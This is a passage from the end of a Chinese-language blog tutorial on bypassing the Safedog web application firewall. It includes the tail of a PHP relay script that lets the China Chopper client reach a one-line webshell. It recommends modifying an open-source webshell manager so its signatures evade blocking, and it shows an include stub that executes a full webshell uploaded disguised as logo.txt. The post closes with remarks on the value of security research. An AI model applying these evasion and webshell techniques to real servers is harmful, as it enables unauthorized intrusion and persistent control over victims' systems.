     curl_setopt($ch, CURLOPT_URL, $curl_url);
    curl_setopt($ch, CURLOPT_POST, 1);
    curl_setopt($ch, CURLOPT_POSTFIELDS, $poststr);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $result = curl_exec($ch);
    curl_close($ch);
    echo $result;
    ?>
意思就是在本地先对eval数据进行base64解码，然后再POST到目标机器上去。在菜刀里设置URL为本地转发php脚本:

![](../images/bypasssafedog/14042113256728.png)


这样就可以使用菜刀来连接前面那个一句话马了:

![](../images/bypasssafedog/14042113407099.png)

这样就能用菜刀了，不过大家真的没必要执着于菜刀，向大家推荐一款更好的类似菜刀的工具Altman：

[http://www.i0day.com/1725.html](http://www.i0day.com/1725.html)

它的最大特点是开源，这意味着像安全狗这种根据特征来拦截的，只要改改源代码把特征字符串改掉，就永远也无法拦截。当然改这个代码要你自己动手喽。

## 七、webshell大马绕过 ##
一句话功能毕竟有限，想用大马怎么办？仍然是传统的include大法，传一个big.php内容如下：

    <?php
    include('logo.txt');
    ?>
然后再把大马上传为logo.txt，这样就成功绕过安全狗的拦截执行了webshell：

![](../images/bypasssafedog/14042114287275.png)

这样大马也顺利执行了。

## 八、结束语 ##
上面从SQL注入、上传、webshell等几个方面绕过了安全狗的保护，有些绕过方法安全狗可能早就知道了，但是为什么一直没有补？很可能的原因是怕过滤太严格影响某些应用，在安全和通用性之间做取舍我认为是可以理解的，但是我觉得这也正是安全研究人员存在的价值所在。

这里发几句题外的牢骚，很多安全公司其实是当作软件公司来做的，做安全软件就是去做开发，而忽视了安全研究的价值。普通的防护方法原理很简单，但想要不影响应用又保证安全其实很难，如果没有对漏洞和攻击有深入理解的研究人员，安全产品是没法更上一层楼的。希望各个安全公司不要太功利，对研究人员多一些重视，安全公司真的不能仅仅等同于软件公司啊！